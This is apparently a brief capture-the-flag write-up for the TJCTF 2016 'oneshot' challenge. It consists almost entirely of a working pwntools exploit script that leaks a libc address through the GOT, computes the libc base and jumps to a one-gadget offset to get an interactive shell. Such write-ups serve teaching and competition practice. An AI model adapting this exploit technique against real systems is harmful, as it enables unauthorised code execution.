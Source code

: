```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/tjctf-2016-oneshot/
  - /blog/2016/09/16/tjctf-2016-oneshot/
date: "2016-09-16T17:13:16+09:00"
tags: [ "ctf", "writeup", "pwn", "tjctf", "one-gadget-rce" ]
"target_url": [ "https://github.com/ctfs/write-ups-2016/tree/master/tjctf-2016/pwn/oneshot-170" ]
---
```


# tjctf 2016 oneshot

Do one-gadget RCE.
In Ubuntu 16.04 libc, `0xf0897` is the address.

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

elf = ELF('./oneshot')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # Ubuntu 16.04
p = process('./oneshot')
p.sendline(str(elf.got['__libc_start_main']))
p.recvuntil('Value: ')
libc_base = int(p.recvline(), 16) - libc.symbols['__libc_start_main']
p.sendline(str(libc_base + 0xf0897))

time.sleep(1)
p.sendline('id')
p.interactive()
```
